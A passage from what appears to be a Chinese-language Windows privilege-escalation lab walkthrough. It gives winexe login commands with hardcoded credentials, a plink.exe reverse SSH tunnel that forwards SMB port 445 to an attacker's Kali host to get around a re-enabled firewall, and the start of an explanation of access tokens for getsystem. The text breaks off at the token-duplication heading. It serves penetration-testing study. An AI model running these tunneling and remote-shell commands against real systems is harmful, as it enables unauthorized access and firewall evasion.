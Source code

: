 &lt;目标-IP&gt;通常是本地的(例如 127.0.0.1)

plink.exe要求您将SSH转到kali，然后使用SSH隧道转发端口。

### 实操

#### 1.使用winexe远程登录

```php
winexe -U 'admin%password123'  //192.168.175.228 cmd.exe
```

#### 2. 使用管理员命令提示， 重新启用 防火墙：

```php
netsh advfirewall set allprofiles state on
```

#### 3. 确认winexe命令现在已失效。

#### 4.将plink .exe文件复制到 Windows，然后在 Kali上kill掉SMB 服务器

#### 5. 确保Kali上的 SSH 服务器正在运行并接受root登录。

检查`/etc/ssh/sshd_config`中未注释`PermitRootLogin yes`选项。

如有必要，请重新启动 SSH 服务。

#### 6. 在 Windows 上，使用 plink.exe将 Kali 上的端口 445 转发到Windows端口 445：

```php
plink.exe root@192.168.175.130 -R 445:127.0.0.1:445
```

#### 在 Kali 上，修改winexe 命令以指向本地托架（或 127.0.0.1），然后执行该命令以通过端口向前获取

```php
winexe -U 'admin%password123' //localhost cmd.exe
```

getsystem(命名管道和令牌复制）
====================

访问令牌
----

访问令牌是Windows中存储用户权限的特殊对象身份和特权。

主访问令牌–在用户登录时创建，绑定到当前用户会话。

当用户启动一个新进程时，他们的主进程访问令牌被复制并附加到新进程。

模拟访问令牌–在进程或线程需要时创建临时与另一个用户的安全上下文一起运行。

令牌复制
----
